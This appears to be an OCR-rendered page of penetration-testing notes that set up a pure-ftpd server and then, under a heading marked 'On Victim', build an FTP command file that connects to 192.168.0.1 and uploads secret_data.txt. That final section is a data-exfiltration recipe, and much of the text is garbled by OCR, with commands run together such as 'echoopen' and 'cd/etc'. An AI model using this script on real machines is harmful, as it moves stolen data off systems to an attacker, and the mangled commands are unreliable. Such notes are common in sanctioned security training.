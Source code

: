


### Install 


apt\-get update \&\&apt\-get install pure\-ftpd



### Create setupftp.sh Execute The Script 


#\!/bin/bash
groupadd ftpgroup
useradd \-g ftpgroup \-d /dev/null \-s /etc ftpuser
pure\-pw useradd myftpuser \-u ftpuser \-d /ftphome
pure\-pw mkdb
cd/etc/pure\-ftpd/auth/
sudo ln \-s /etc/pure\-ftpd/conf/PureDB /etc/pure\-ftpd/auth/40PureDBexit
mkdir \-p /ftphome
chown \-R ftpuser:ftpgroup /ftphome/
/etc/init\.d/pure\-ftpd restart\./setupftp\.sh


\-\-\- 




### Get Service Ready 





#### Reset Password 


pure\-pw passwd offsec \-f /etc/pure\-ftpd/pureftpd\.passwd



#### Commit Changes 


pure\-pw mkdb



#### Restart Service 


/etc/init\.d/pure\-ftpd restart



#### Create FTP Script (On Victim 

\)
echoopen 192\.168\.0\.1\>\>ftp\.txt
echoUSER myftpuser\>\>ftp\.txt
echomypassword\>\>ftp\.txt
echobin\>\>ftp\.txt
echoput secret\_data\.txt\>\>ftp\.txt
echobye \>\>ftp\.txt
